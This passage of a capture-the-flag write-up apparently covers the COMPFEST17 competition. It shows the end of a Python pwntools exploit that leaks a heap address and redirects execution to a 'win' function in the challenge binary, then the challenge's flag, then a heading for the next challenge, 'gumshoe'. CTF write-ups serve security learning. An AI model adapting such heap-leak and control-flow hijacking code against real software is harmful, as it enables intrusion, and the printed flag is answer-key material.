 ```python
    menu(1)
    menu(idx)

def fire(idx):
    menu(2)
    menu(idx)

def tire(idx):
    menu(3)
    menu(idx)

def exploit():
    global io
    io = initialize()
    debug()
    with log.progress("Leak Heap"), context.silent:
        for i in range(4):
            menu(0)
        hire(8) # Trigger leak
        menu(4)
        ru("(33)\n")
        rl()
        ru("(")
        heap_leak = int(ru(")")) << 12
    leak("Heap leak", hex(heap_leak))

    with log.progress("RIP -> Win"), context.silent:
        menu(5)
        menu(heap_leak + 0x388) # Pointer to win
        menu(0)
        menu(elf.sym["_Z3winv"])
        menu(0)
        tire(8) # trigger win
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{3X1T_ORw_cha1n}`

# Pwn - gumshoe

## Introduction 
